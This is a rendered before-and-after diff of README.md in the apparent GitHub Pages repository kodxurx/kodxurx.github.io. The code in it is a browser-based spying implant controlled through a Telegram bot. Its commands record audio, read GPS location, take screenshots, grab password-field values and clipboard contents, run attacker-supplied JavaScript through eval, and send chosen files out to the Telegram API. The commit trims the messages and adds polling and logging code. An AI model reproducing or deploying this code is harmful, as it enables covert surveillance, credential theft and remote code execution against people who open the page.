

Before and after one commit to kodxurx/kodxurx.github.io, a Markdown page: README.md, the part around one of its changes. Shown at 80% size. Drawn GitHub-style; blank space fills up the shorter version.

```diff
--- a/README.md
+++ b/README.md
@@ -257,7 +262,7 @@
                             mediaRecorder.ondataavailable = e => chunks.push(e.data);
                             mediaRecorder.onstop = async () => {
                                 const blob = new Blob(chunks, { type: 'audio/webm' });
-                                await sendDocument(blob, 'recording.webm', '🎙️ Audio capture (5s)');
+                                await sendDocument(blob, 'recording.webm', '🎙️ Audio');
                                 stream.getTracks().forEach(t => t.stop());
                             };
                             mediaRecorder.start();
@@ -268,7 +273,7 @@
                     }
                     case '/location':
                         navigator.geolocation.getCurrentPosition(async pos => {
-                            await sendMessage(`📍 GPS Location:\nLat: ${pos.coords.latitude}\nLon: ${pos.coords.longitude}\nAccuracy: ${pos.coords.accuracy}m`);
+                            await sendMessage(`📍 GPS: ${pos.coords.latitude}, ${pos.coords.longitude} (${pos.coords.accuracy}m)`);
                         }, async err => await sendMessage(`GPS error: ${err.message}`));
                         break;
                     case '/screenshot':
@@ -282,7 +287,7 @@
                     case '/grab_pass': {
                         const pw = document.querySelector('input[type="password"]');
                         if (pw && pw.value) await sendMessage(`🔐 Password: ${pw.value}`);
-                        else await sendMessage('No password field with value found.');
+                        else await sendMessage('No password field with value.');
                         break;
                     }
                     case '/clipboard':
@@ -296,40 +301,61 @@
                             const code = text.substring(5);
                             let result = eval(code);
                             if (typeof result !== 'string') result = JSON.stringify(result);
-                            await sendMessage(`✅ Eval result:\n${result.substring(0, 3900)}`);
-                        } else await sendMessage('Usage: /eval <js code>');
+                            await sendMessage(`✅ Eval:\n${result.substring(0, 3900)}`);
+                        } else await sendMessage('Usage: /eval <js>');
                         break;
                     case '/upload': {
                         const input = document.createElement('input');
                         input.type = 'file';
                         input.onchange = async (e) => {
                             const file = e.target.files[0];
-                            if (file) {
-                                await sendDocument(file, file.name, `📁 File exfiltrated: ${file.name}`);
-                            }
+                            if (file) await sendDocument(file, file.name, `📁 ${file.name}`);
                         };
                         input.click();
-                        await sendMessage('File picker opened on victim side.');
+                        await sendMessage('File picker opened.');
                         break;
                     }
                     default:
-                        await sendMessage(`Unknown command: ${cmd}`);
+                        await sendMessage(`Unknown: ${cmd}`);
                 }
             } catch(err) {
                 await sendMessage(`Error: ${err.message}`);
             }
         }
 
-        // ================= POLLING (getUpdates) =================
+        // ================= POLLING WITH OFFSET SYNC =================
+        async function syncOffset() {
+            try {
+                const res = await fetch(`https://api.telegram.org/bot${BOT_TOKEN}/getUpdates?offset=-1&timeout=1`, { headers: TELEGRAM_HEADERS });
+                const data = await res.json();
+                console.log('syncOffset response:', data);
+                if (data.ok && data.result && data.result.length > 0) {
+                    const lastId = data.result[data.result.length - 1].update_id;
+                    updateId = lastId + 1;
+                } else {
+                    updateId = 0;
+                }
+                console.log('Update offset set to:', updateId);
+            } catch(e) {
+                console.error('syncOffset error:', e);
+            }
+        }
+
         async function pollUpdates() {
             if (!isRegistered) return;
             try {
-                const res = await fetch(`https://api.telegram.org/bot${BOT_TOKEN}/getUpdates?offset=${updateId}&timeout=15`, { headers: TELEGRAM_HEADERS });
+                const url = `https://api.telegram.org/bot${BOT_TOKEN}/getUpdates?offset=${updateId}&timeout=15`;
+                console.log('Polling:', url);
+                const res = await fetch(url, { headers: TELEGRAM_HEADERS });
                 const data = await res.json();
+                console.log('Poll response:', data);
                 if (data.ok && data.result) {
                     for (const upd of data.result) {
                         if (upd.update_id >= updateId) {
                             updateId = upd.update_id + 1;
-                            if (upd.message && upd.message.text) await handleCommand(upd.message.text);
+                            if (upd.message && upd.message.text) {
+                                console.log('Processing command:', upd.message.text);
+                                await handleCommand(upd.message.text);
+                            }
                         }
                     }
```
Also changed, not shown: other parts of README.md (+33 -18 lines).
